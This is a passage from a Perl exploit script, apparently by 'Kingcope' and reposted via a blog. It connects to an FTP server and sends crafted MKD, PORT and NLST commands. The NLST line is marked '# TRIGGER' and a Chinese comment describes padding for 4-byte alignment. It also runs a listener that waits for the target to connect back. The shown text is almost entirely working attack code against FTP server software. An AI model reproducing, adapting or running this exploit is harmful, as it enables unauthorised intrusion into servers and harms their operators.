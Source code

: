 print $x;
print $sock "MKD CCCC". "$c
"; # 这里也被修改了, 多加了个C, 用于4字节对齐
$x = <$sock>;
print $x;
print $sock "PORT $locip," . int($port / 256) . "," . int($port % 256) . "
";
$x = <$sock>;
print $x;
# TRIGGER
print $sock "NLST $c*/../C*/
";
$x = <$sock>;
print $x;
} else {
my $servsock = IO::Socket::INET->new(LocalAddr => "0.0.0.0", LocalPort => $port, Proto => 'tcp', Listen => 1);
die "Could not create socket: $!
" unless $servsock;
my $new_sock = $servsock->accept();
while(<$new_sock>) {
print $_;
}
close($servsock);
}
#Cheerio,
#
#Kingcope

via [baicker](http://www.blogjava.net/baicker/)

